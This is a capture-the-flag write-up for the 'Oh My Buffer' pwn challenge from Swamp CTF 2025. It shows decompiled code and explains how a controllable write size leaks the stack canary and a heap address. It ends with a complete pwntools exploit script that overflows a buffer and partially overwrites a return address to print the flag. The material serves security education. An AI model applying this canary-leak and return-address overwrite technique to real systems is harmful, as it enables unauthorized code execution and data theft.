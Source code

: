 ```yaml
---
title: Oh My Buffer
type: writeup
date: 2025-03-30T22:47:05+03:00
description: Writeup for Oh My Buffer [Swamp CTF 2025]
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

I may have messed up my I/O calls, but it doesn't matter if everything sensitive has been erased, right?

## Intuition

Open the binary in Ghidra:

```c

void main(void)

{
  int fd_devnull;
  __pid_t _Var1;
  int tmp;
  int tmp2;
  int tmp3;
  long in_FS_OFFSET;
  char local_71;
  int fd_stdout;
  int opt;
  FILE *local_68;
  FILE *devnull;
  char flag [72];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  local_68 = fopen("flag.txt","r");
  fgets(flag,0x40,local_68);
  fclose(local_68);
  devnull = fopen("/dev/null","w");
  fd_stdout = dup(1);
  fd_devnull = fileno(devnull);
  dup2(fd_devnull,1);
  puts("Here\'s the flag, too bad we don\'t let you see this:");
  fflush(stdout);
  fputs(flag,stdout);
  memset(flag,0,0x40);
  dup2(fd_stdout,1);
  close(fd_stdout);
  fclose(devnull);
  _Var1 = fork();
  if (_Var1 == 0) {
    while( true ) {
      do {
        while( true ) {
          write(1,"===================\n",0x14);
          write(1,"Welcome to the box!\n",0x14);
          write(1,"1) Register\n",0xc);
          write(1,"2) Login\n",9);
          write(1,"3) Exit\n",8);
          write(1,"> ",2);
          do {
            tmp = getchar();
            local_71 = (char)tmp;
          } while (local_71 == '\n');
          opt = atoi(&local_71);
          opt = opt % 3;
          do {
            tmp2 = getchar();
          } while (tmp2 != 10);
          write(1,"-------------------\n",0x14);
          tmp3 = opt % 3;
          if (tmp3 != 2) break;
          login();
        }
      } while (2 < tmp3);
      if (tmp3 == 0) break;
      if (tmp3 == 1) {
        reg();
      }
    }
    _exit(0);
  }
  wait((void *)0x0);
  _exit(0);
}
```

The main function is not very interesting. It reads the flag but prints it to `/dev/null`. Then it deletes it from the stack and puts us in `the box`.
The box has three options: Register, Login, and Exit.

The following function is the `reg()` function:

```c
void reg(void)
{
  long in_FS_OFFSET;
  undefined local_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  write(1,"Username: ",10);
  read(0,local_28,0x2a);
  write(1,"Password: ",10);
  read(0,local_28,0x2a);
  write(1,"Sorry, registration isn\'t open right now!\n",0x2a);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

It is quite obvious there is a buffer overflow in both reads, which allows us to both poison the RBP and overwrite 2 bytes of the return address.
But the stack cookie is quite a pain. Meanwhile, in the `login()` function:

```c
void login(void)
{
  long in_FS_OFFSET;
  int local_2c;
  undefined name [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  write(1,"How long is your username: ",0x1b);
  __isoc99_fscanf(stdin,"%d",&local_2c);
  write(1,"Username: ",10);
  read(0,name,0x10);
  write(1,"Sorry, we couldn\'t find the user: ",0x22);
  write(1,name,(long)local_2c);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Because we control the write size through `local_2c`, we can leak arbitrary amount of stack content. We can leak the canary and a heap address.
Why should we leak a heap address? Because the flag was also stored there after the `fputs()` function call in `main()`:

```
$ gdb -q ./binary
pwndbg> break fputs
Breakpoint 1 at 0x4010b0
pwndbg> r
pwndbg> fin
pwndbg> search "ctf{"
Searching for value: 'ctf{'
[heap]          0x405480 "ctf{.hidden_baby!}\no bad we don't let you see this:\n"
[stack]         0x7fffffffdd80 'ctf{.hidden_baby!}\n'
```

Great, so even if the stack buffer is zero'd out, we still have the flag on the heap. So strategy is as follows:

1. Leak a bunch of stack data with `login()`.
2. Get heap address leak.
3. Get canary.
4. Overflow the RBP and return address in `reg()`.

But where should we jump? We only have 2 bytes we can change and there's not a lot of good targets.
We have control over RBP, so maybe we can find something that prints a string found relative to RBP?

There is exactly that inside `login()`:

```
0040139b 48 8d 45      LEA       RAX=>name,[RBP + -0x20]
         e0
0040139f 48 89 c6      MOV       RSI,RAX
004013a2 bf 01 00      MOV       EDI,0x1
         00 00
004013a7 e8 b4 fc      CALL      <EXTERNAL>::write                          ssize_t write(int __fd, void
         ff ff
```

Luckily, the RDX register (which is the size of the write) is some big number when we get to jump here.
So everything falls into place! Last and final steps:

5. Change RBP to flag location on the heap + 0x20.
6. Change lower bytes of return address to `0x139b`.
7. Win!

## Solution

Here's what I explained above, but in a script:

```py
#!/usr/bin/env python3

from pwn import *

#target = process("./binary")
target = remote("chals.swampctf.com", 40005)

target.recvuntil(b"> ")
target.sendline(b"2")
target.recvuntil(b"ame: ")
target.sendline(b"80")
target.recvuntil(b"ame: ")
target.sendline(b"a" * 0xf)

leak = target.recv(150)
cookie = u64(leak[58:66])
leak = u64(leak[106:114])
flag = leak - 480 + 0x20 + 960

payload = 0x18 * b"a" + p64(cookie) + p64(flag) + b"\x9b\x13"

target.recvuntil(b"> ")
target.sendline(b"1")
target.recvuntil(b"me: ")
target.sendline(payload)
target.recvuntil(b"rd: ")
target.sendline(payload)
target.interactive()
```

### Flag

```
$ ./solve.py 
[+] Opening connection to chals.swampctf.com on port 40005: Done
b"\x00W\xed\xee+'\xd4\xfb"
b'\xa0\xd2\xe1\x1f\x00\x00\x00\x00'
0x1fe1d4a0
[*] Switching to interactive mode
Sorry, registration isn't open right now!
swampCTF{fUn_w1tH_f0rk5_aN6_fd5}
 let you *** stack smashing detected ***: terminated
```

